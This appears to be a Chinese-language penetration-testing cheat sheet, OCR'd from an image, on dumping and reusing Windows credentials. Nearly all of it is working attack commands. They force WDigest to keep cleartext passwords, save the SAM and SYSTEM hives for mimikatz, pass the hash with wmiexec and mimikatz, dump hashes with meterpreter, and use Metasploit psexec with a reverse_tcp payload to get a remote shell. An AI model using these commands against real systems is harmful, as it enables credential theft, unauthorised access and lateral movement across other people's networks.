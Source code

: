 > Set-ItemProperty -Path HKLM:\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest -Name UseLogonCredential -Type DWORD -Value 1

重启或者用户再次登录，能够导出明文口令, 参考下文：

3gstudent 自动Dump-Clear-Text-Password-after-KB2871997-installed

> https://github.com/3gstudent/Dump-Clear-Password-after-KB2871997-installed

### SAM-hash

管理权限：

> reg save HKLM\SYSTEM Sys.hiv
>
> reg save HKLM\SAM Sam.hiv

mimikatz:

> lsadump::sam /sam:Sam.hiv /system:Sys.hiv

### pass the hash

wmiexec 普通权限即可

> https://github.com/maaaaz/impacket-examples-window																 

> domain=TEST user=test1
>
> wmiexec -hashes 00000000000000000000000000000000:99b2b135c9e829367d9f07201b1007c3 TEST/test1@192.168.1.1 "whoami"

需要管理权限

> mimikatz "privilege::debug" "sekurlsa::pth /user:abc /domain:test.local /ntlm:hash" 

> meterpreter > run post/windows/gather/hashdump
>
> meterpreter > background

> msf > use exploit/windows/smb/psexec
>
> msf exploit(psexec) > set payload windows/meterpreter/reverse_tcp
>
> msf exploit(psexec) > set SMBuser Administrator
>
> msf exploit(psexec) > set SMBPass xxxxxxxxxxxx9a224a3b108f3fa6cb6d:xxxxf7eaee8fb117ad06bdd830b7586c
>
> msf exploit(psexec) > exploit
>
> meterpreter > shell

安装了 KB2871997 补丁或者系统版本大于等于 windows server 2012 时，内存不再明文保存密码，1,改注册表后，注销再次登录，可以使用，schtasks 等执行命令无法用管理员权限。2.用 ptk，ptt。例外，打补丁后 administrato（SID-500） 依旧可以pth

> https://3gstudent.github.io/3gstudent.github.io/%E5%9F%9F%E6%B8%97%E9%80%8F-Pass-The-Hash%E7%9A%84%E5%AE%9E%E7%8E%B0/
